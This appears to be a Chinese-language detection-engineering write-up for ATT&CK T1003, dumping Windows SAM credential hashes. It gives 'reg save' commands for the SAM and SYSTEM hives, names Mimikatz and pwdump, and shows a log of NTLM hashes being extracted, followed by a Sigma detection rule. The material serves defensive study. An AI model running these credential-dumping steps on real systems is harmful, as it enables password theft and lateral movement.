 # T1003-windows-基于SAM凭证获取

## 来自ATT&CK的描述

凭证获取是从操作系统和软件中获取登录信息和密码的过程，通常为HASH散列或明文密码。然后使用凭证进行横向移动访问其他系统。

### SAM（Security Accounts Manager）

SAM文件是一个存储主机本地账户信息的数据库文件，通常是"net user"能看到的用户。想要枚举SAM数据库，你需要系统（system）权限才能够进行操作。它可以在两种模式下工作：在线（使用SYSTEM用户或令牌）或离线（使用SYSTEM＆SAMhives或backup）。

安全帐户管理器（SAM），往往是一个数据库文件在Windows XP中，Windows Vista中、Windows 7中、8.1和10存储用户的密码。它可用于验证本地和远程用户。从Windows 2000 SP4开始，Active Directory对远程用户进行身份验证。SAM使用加密措施来防止未经身份验证的用户访问系统。

用户密码以散列格式存储在注册表配置单元中，可以是LM哈希，也可以是NTLM哈希。可以在此文件中找到%SystemRoot%/system32/config/SAM并安装此文件HKLM/SAM。LM哈希是一种受损的协议，已被NTLM哈希取代。可以将大多数Windows版本配置为在用户更改密码时禁用有效LM哈希的创建和存储。Windows Vista和更高版本的Windows默认禁用LM哈希。

为了提高SAM数据库的安全性以防止脱机离线破解，Microsoft在Windows NT 4.0中引入了SYSKEY功能。启用SYSKEY后，SAM文件的磁盘副本将部分加密，以便SAM中存储的所有本地帐户的密码哈希值都使用密钥加密（通常也称为“SYSKEY”）。可以通过运行程序启用它。

## 测试案例

你可以使用许多工具进行检索读取SAM文件：

- pwdump.exe
- Mimikatz
- gsecdump
- ······

或者，可以使用Reg从注册表中提取SAM文件信息：

- reg save HKLM\SYSTEM SystemBkup.hiv
- reg save HKLM\SAM SamBkup.hiv

然后可以使用Creddump7或者hashcat在本地离线提取哈希值。

你也可以选择直接备份这些文件：

- C:\Windows\System32\config\SYSTEM
- C:\Windows\System32\config\SAM

值得注意的是：Rid 500账户是本地内置账户，Rid 501是来宾用户，用户账户以Rid 1000+开头。

## 检测日志

sysmon日志

## 测试复现

### 攻击方法：本地导出sam、system文件，离线进行hash提取(administrator)

```dos
C:\Users\me\Desktop>reg save hklm\sam sam.hiv
The operation completed successfully.

C:\Users\me\Desktop>reg save hklm\system system.hiv
The operation completed successfully.

mimikatz # lsadump::sam /sam:sam.hiv /system:system.hiv

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 31d6cfe0d16ae931b73c59d7e0c089c0

RID  : 000001f5 (501)
User : Guest

RID  : 000003eb (1003)
User : test
  Hash NTLM: a2345375a47a92754e2505132aca194b

RID  : 000003ec (1004)
User : test2
  Hash NTLM: f0873f3268072c7b1150b15670291137
```

## 测试留痕

暂无

## 检测规则/思路

### 攻击方法：本地导出sam、system文件，离线进行hash提取(administrator)·

```yml
title: 本地导出sam、system文件，离线进行hash提取(administrator)
description: windows 7 模拟测试结果
references: https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump
tags: ATT&CK T1003
status: experimental
author: 12306Bro
logsource:
​    product: windows
​    service: sysmon
detection:
​    selection1:
​        EventID: 1
​        Image: 'C:\Windows\System32\reg.exe'
​        CommandLine: 'reg  save hklm\sam *.hiv'
​    selection2:
​        EventID: 1
​        Image: 'Image: C:\Windows\System32\reg.exe'
​        CommandLine: 'reg  save hklm\system *.hiv'
​    timeframe: last 2m
​    condition: all of them
level: high
```

## 参考推荐

MITRE-ATT&CK-T1003：https://attack.mitre.org/techniques/T1003/

pwdump7：http://passwords.openwall.net/b/pwdump/pwdump7.zip

powershell：https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-PowerDump.ps1

mimikatz wiki：https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump

关于更多通过SAM数据库获取本地用户hash你可以参考：https://www.4hou.com/technology/10878.html